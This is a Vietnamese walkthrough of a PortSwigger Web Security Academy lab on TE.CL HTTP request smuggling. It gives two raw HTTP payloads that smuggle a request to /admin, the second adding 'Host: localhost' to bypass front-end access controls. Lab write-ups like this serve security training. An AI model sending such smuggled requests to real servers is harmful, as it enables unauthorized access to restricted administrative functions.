 ![image](https://hackmd.io/_uploads/SkCX5ropp.png)

## 7. Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

link: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

### Đề bài

![image](https://hackmd.io/_uploads/S1Dncro6p.png)

### Khai thác

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![image](https://hackmd.io/_uploads/r1ZYsHop6.png)

Quan sát rằng yêu cầu hợp nhất đã /adminbị từ chối do không sử dụng tiêu đề `Host: localhost`.

```http!
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![image](https://hackmd.io/_uploads/ryFpjHopp.png)
